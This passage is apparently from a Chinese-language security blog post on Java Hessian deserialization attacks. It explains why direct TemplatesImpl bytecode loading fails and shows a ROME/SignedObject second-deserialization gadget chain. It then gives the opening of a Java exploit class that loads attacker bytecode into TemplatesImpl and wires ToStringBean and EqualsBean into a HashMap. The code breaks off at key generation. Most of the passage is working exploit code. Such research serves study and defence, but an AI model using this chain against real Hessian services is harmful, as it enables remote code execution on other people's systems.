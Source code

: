 ## TemplatesImpl

首先考虑一下动态字节码加载的打法，但是明显是不行的，因为`TemplatesImpl`中的`_tfactory`是一个`transient`，无法参与序列化与反序列化，因此可以采取二次反序列化的打法，就是上文的`ROME`中的`SignedObject`链。

调用链如下：

```bash
hessianinput.readObject()->
    hashmap.put()->
        EqualsBean.hashcode()->
            ToStringBean.toString()->
                SignedObject.getObject()->
                        hashmap.readObject()->后面的利用链
```

exp 如下：

```bash
package com.example.Hessian;

import cn.hutool.core.lang.hash.Hash;
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.example.jackson.TemplateImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Base64;
import java.util.HashMap;

public class hessian_signobject {
    public static void main(String[] args) throws Exception {
        byte[] code =getTemplates();
        byte[][] codes={code};
        TemplatesImpl templates=new TemplatesImpl();
        setValue(templates,"_tfactory",new TransformerFactoryImpl());
        setValue(templates,"_name","Aiwin");
        setValue(templates,"_class",null);
        setValue(templates,"_bytecodes",codes);
        ToStringBean toStringBean=new ToStringBean(Templates.class,templates);
        EqualsBean equalsBean=new EqualsBean(String.class,"aiwin");
        HashMap hashMap=new HashMap();
        hashMap.put(equalsBean,"aaa");
        setValue(equalsBean,"_beanClass",ToStringBean.class);
        setValue(equalsBean,"_obj",toStringBean);

        //SignedObject
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
```